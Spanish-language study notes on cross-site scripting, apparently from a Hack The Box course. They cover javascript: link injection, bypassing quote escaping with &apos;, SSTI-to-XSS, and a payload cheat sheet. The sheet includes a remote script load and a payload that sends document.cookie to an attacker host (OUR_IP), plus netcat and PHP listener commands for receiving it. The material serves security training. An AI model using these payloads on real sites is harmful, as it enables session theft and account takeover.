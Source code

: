 En ocasiones se puede añadir un  link de alguna forma. En estos caso podemos conseguir que se ejecute código javascript d ela siguiente forma:
`javascript:alert()`. Esto al incluirse en el href se ejecuta el código.

En el caso de que el código haga un html encoding antes de utilizar un input es posible bypassear el escape de la comilla sustituyéndolo por su carácter en html encoding. En la url podemos introducir para que se ejecute nuestro código xss de la siguiente forma:

`http://something?&apos;-alert(1)-&apos;`
Siendo el payload `&apos;-alert(1)-&apos;` 

#### SSTI into XSS

Cuando hay una vulnerabilidad de ssti se puede redirigir a xss utilizando la plantilla para ejecutar código javascript.

`${alert()}`
#### CheatSheet:
|   |   |
|---|---|
|**XSS Payloads**||
|`<script>alert(window.origin)</script>`|Basic XSS Payload|
|`<plaintext>`|Basic XSS Payload|
|`<script>print()</script>`|Basic XSS Payload|
|`<img src="" onerror=alert(window.origin)>`|HTML-based XSS Payload|
|`<script>document.body.style.background = "#141d2b"</script>`|Change Background Color|
|`<script>document.body.background = "https://www.hackthebox.eu/images/logo-htb.svg"</script>`|Change Background Image|
|`<script>document.title = 'HackTheBox Academy'</script>`|Change Website Title|
|`<script>document.getElementsByTagName('body')[0].innerHTML = 'text'</script>`|Overwrite website's main body|
|`<script>document.getElementById('urlform').remove();</script>`|Remove certain HTML element|
|`<script src="http://OUR_IP/script.js"></script>`|Load remote script|
|`<script>new Image().src='http://OUR_IP/index.php?c='+document.cookie</script>`|Send Cookie details to us|
|**Commands**||
|`python xsstrike.py -u "http://SERVER_IP:PORT/index.php?task=test"`|Run `xsstrike` on a url parameter|
|`sudo nc -lvnp 80`|Start `netcat` listener|
|`sudo php -S 0.0.0.0:80`|Start `PHP` server|